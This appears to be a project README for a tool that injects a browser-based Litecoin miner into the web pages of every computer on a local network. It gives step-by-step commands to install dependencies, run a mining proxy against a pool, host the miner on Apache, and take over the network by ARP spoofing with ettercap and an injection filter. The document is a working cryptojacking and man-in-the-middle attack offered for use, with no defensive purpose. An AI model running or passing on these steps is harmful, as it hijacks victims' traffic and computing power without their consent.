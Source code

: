 This provides a way to mine Litecoin, distributed over a network via browsers.
It will inject the code into the browsers of every computer reading html from
port 80 on a LAN and mine LTC in javascript.  Some pages work and some don't,
https for example is not supported, and probably never will be.  Some pages
also don't have 'room' once their newlines and comments have been removed to
inject the miner, the packet would be too long.  The code automatically prints
the correct number of spaces as 'filler' to line up to the packet offsets, and
fill the html page so we don't time it out on page load.  We mine on 4 threads
by default, but this can be easily modified.  By default we're doing this by
means of arp spoofing, but if you need to take the network in another way where
you can pass it through the etterfilter, feel free.



Install some dependancies:
apt-get install python2.7 devscripts debhelper pbuilder python-twisted python-dev python-setuptools python-autobahn libapache2-mod-php5 php5-curl ettercap apache2

setup stratum-mining-proxy:

cd stratum && ./setup.py develop
cd ..
cd stratum-mining-proxy && distribute_setup.py; chmod u+x setup.py; ./setup.py develop; mkdir log;
./mining_proxy.py -o ltc.ghash.io -p 3333 -sh 127.0.0.1 -oh 127.0.0.1  -cu up100454499.Web -cp yourpass -st -l log.txt

move lm to your apache directory:

cp lm /var/www/html -R
/etc/init.d/apache2 restart

MITM the network:

etterfilter hashnet.etterfilter -o nh.ef
ettercap -T -M arp:remote -q -F nh.ef /192.168.0.1/ //
CHANGE hashnet.etterfilter file's ip in the perl script section to point to the webserver where you host the miner.

Test it by going to 127.0.0.1/lm

NOTE: You need a pretty large LAN for this to be worth it.  This mines with 4 cpu threads by default.
THANKS: Thanks to slush0, esenminer, and the ettercap team
